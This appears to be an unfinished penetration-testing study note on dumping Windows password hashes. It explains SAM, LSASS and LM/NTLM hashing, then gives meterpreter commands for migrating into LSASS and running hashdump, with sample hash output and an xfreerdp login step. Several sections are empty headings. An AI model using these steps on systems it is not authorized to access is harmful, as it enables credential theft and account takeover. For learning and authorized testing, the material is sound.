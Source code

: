 # Windows: Dump & Crack Password Hashes

## Contents
- []()
- []()
- []()
- []()
- []()
- []()
- []()
- []()
- []()
- []()

## Intro

### Windows Password Hashes
- The Windows O/S stores hashed user account passwords locally in the SAM database.
  - `SAM` : Security Accounts Manager
- Hashing is the process of converting a piece of data into another value. A hashing function or algorith is used to generate the new value. The result of a hashing algorithm is know as a **_hash_** or a **_hash value_**.
- Authentication and verification of user credentials is facilitated by the LSA.
  - `LSA` : Local Security Authority
- This all ties into the LSASS process.
  - `LSASS` : Local Security Authority Subsystem Service
- Windows versions up to Windows Server 2003 utilize two different types of hashes:
  - `LM` : LAN Manager authentication protocol
  - `NTLM` : Network Trust Level Manager
- Windows disabled LM hashing and utilizes NTLM hashing from Windows Vista onward. 

### SAM Database
- The SAM (Security Account Manager) is a database file that is responsible for managing user accounts and passwords on Windows. All user account passwords stored in the SAM database are hashed.
  - The SAM database on Windows is similar to the `/etc/shadow` file on Linux
- The SAM database file cannot be copied while the operating system is running.
- The Windows NT kernel keeps the SAM database file locked and as a result, attackers typically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process.
  - **NOTE:** Elevated/Administrative privileges are required in order to access and interact with the LSASS process.
  - You're probably going to need PrivEsc to be able to dump hashes.
- In modern versions of Windows, the SAM database is encrypted with a `syskey`.

### LM (LanMan -- LAN Manager authentication protocol)
- LM is the default hashing algorithm that was implemented in Windows operating systems prior to NT4.0.
- The protocol is used to hash user passwords, and the hashing process can be broken down into the following steps:
  - The password is broken into two seven-character chunks.
  - All characters are then converted into uppercase.
  - Each chunk is then hashed separated with the DES algorithm.
- LM hashing is generally considered to be a **_weak protocol_** and can easily be cracked, primarily because the password hash does not include salts, consequently making brute-force and rainbow table attacks effective against LM hashes.

### NTLM Hash (or just NTHash)
- NTML is a collection of authentication protocols that are utilized in Windows to facilitate authentication between computers. The authentication process involves using a valid username and password to authenticate successfully.
- From Windows Vista onwards, Windows disables LM hashing and utilizes NTLM hashing.
- When a user account is created, it is encrypted using the MD4 hashing algorithm, while the original password is disposed of.
- NTLM improves upon LM in the following ways:
  - Does not split the hash into two chunks
  - Case sensitive
  - Allows the use of symbols and unicode characters
- These hashes are stored in the SAM database.
- NTHashes do not use salts. Therefore they can be cracked relatively easily (brute-force or rainbow table).

### Dumping & Cracking NTLM Hashes
- We can dump Windows password hashes by leveraging various utilities like...
  - `hashdump` : meterpreter built-in command
  - `mimikatz`
  - `kiwi` : mimikatz module in MetaSploit
- Then we can try to crack those hashes with...
  - John the Ripper
  - Hashcat
- If we cannot crack the hashes, we can try a pass-the-hash with PsExec or CrackMapExec.

----
## Dump Hashes

### Scenario & Set-Up
- You compromised a Windows target with MetaSploit and have a meterpreter session.
- Do some basic initial enumeration:
```
> sysinfo
> migrate [lsass process number]
  # Since we are going to be interacting with the LSASS process, migrate to that specific process
  # This gives us a 64-bit meterpreter session on the target 64-bit architecture (more stable)
  # This gives us more stability when interacting with the LSASS process to dump hashes.
> getuid
  # if we have access as Administrator, no privesc needed
> getprivs
  # confirm we have admin privs
```

### Meterpreter Command: hashdump

#### The command
- From your meterpreter session, issue the command...
```
hashdump
```
- You can run the same thing via the MSF module `post/windows/gather/hashdump`
- The hashdump post module will dump the contents of the SAM database ([resource](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/#hashdump)).

#### The Format
- Observe the format of the output... (colon delimited)
```
Administrator:500:b512c1f3a8c0e7241aa818381e4e751b:1891f4775f676d4d10c09c1225a5c0a3:::
# Field #1: username   : Administrator
# Field #2: RID        : 500
# Field #3: LM Hash    : b512c1f3a8c0e7241aa818381e4e751b
# Field #4: NTLM Hash  : 1891f4775f676d4d10c09c1225a5c0a3
```
- Field #1: username
- Field #2: RID (Relative Identification), which is the last 3-4 digits of the SID (Security Identifier)
- Field #3: LM Hash
- Field #4: NTLM Hash

#### Copy Results
- Copy the results you want to crack into a text file (e.g., hashes.txt)
```
Administrator:500:b512c1f3a8c0e7241aa818381e4e751b:1891f4775f676d4d10c09c1225a5c0a3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

### MetaSploit Module: Kiwi




----
## Crack Hashes

### John the Ripper

### Hashcat

----
## Use the Hashes
- If RDP port 3389 is open on the target machine, use xfreerdp to log in remotely
```
xfreerpd /u:Administrator /p:password /v:[target ip]
```

----
## Pass-the-Hash

